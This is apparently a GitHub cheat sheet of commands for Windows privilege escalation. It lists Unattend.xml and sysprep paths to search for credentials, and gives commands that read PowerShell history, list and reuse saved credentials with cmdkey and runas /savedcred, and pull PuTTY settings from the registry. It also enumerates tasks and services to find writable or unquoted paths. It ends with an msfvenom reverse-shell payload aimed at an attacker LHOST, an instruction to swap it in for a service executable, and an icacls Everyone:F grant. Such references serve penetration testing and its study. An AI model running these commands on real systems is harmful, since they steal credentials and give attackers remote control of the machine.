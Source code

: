 ### Unattended installation credentials
Check the following files for credentials:
- `C:\Unattend.xml`
- `C:\Windows\Panther\Unattend.xml`
- `C:\Windows\Panther\Unattend\Unattend.xml`
- `C:\Windows\system32\sysprep.inf`
- `C:\Windows\system32\sysprep\sysprep.xml`
___
### Powershell history
Search for credentials in the Powershell history using:
```
type %userprofile%\AppData\Roaming\Microsoft\Windows\Powershell\PSReadline\ConsoleHost_history.txt
```
___
### Windows credentials
```
cmdkey /list
```
display a list of saved credentials.
```
runas /savedcred /user:<user> cmd.exe
```
run a command prompt as specific user using saved credentials.
___
### PuTTY credentials
```
reg query HKEY_CURRENT_USER\Software\<user>\PuTTY\Sessions /f "Proxy" /s
```
display ssh credentials from PuTTY.
___
### Tasks and services
```
schtasks
```
display a list of tasks.
```
schtasks /query /tn "<task>" /fo list /v
```
display specific task information.
```
sc query
```
display a list of services.
```
sc qc "<service>"
```
display specific service configuration.
```
icacls <file>
```
check file permission.
_check for writable files or file path without quotes and with spaces, and replace executable with payload._
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f <format> -o <filename>
```
generate payload _(format `exe` or `exe-service`)_.
```
icacls <file> /grant Everyone:F
```
update payload permission.
